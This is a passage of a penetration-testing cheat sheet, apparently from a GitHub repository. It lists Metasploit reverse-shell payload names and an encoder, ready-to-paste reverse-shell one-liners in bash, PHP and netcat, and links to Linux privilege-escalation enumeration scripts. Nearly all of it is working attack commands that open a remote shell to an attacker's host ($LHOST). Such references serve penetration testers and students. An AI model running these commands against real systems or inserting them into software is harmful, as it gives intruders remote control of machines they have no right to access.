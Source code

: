 | Linux         |                                   |
|:--------- 	|   -----------------------------:	|
|   32bit   	| ``linux/x86/shell_reverse_tcp`` 	|
| 64bit      	| ``linux/x64/shell_reverse_tcp`` 	|

#### Encoders
``x86/shikata_ga_nai``

## Bash Reverse Shells
```bash
0<&196;exec 196<>/dev/tcp/$LHOST/$LPORT; sh <&196 >&196 2>&196
```
```bash
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

## PHP Reverse Shells
### One Liner
```php
<?php $sock = fsockopen($LHOST,$LPORT); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes) ?>
```
### File Upload
Kali File Location: `/usr/share/webshells/php/php-reverse-shell.php` <sup><sub>[[archive](files/php-reverse-shell.php)]

## Netcat Reverse Shells
### Unix
```bash
nc -e /bin/sh $LHOST $LPORT
```

### OpenBSD
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $LHOST $PORT >/tmp/f
```

# 3. Post-Exploitation

## Linux
### Enumeration Scripts:
- [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) <sup><sub>[[archive](files/LinEnum.sh)]

- [linuxprivchecker.py](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py) <sup><sub>[[archive](files/linuxprivchecker.py)]
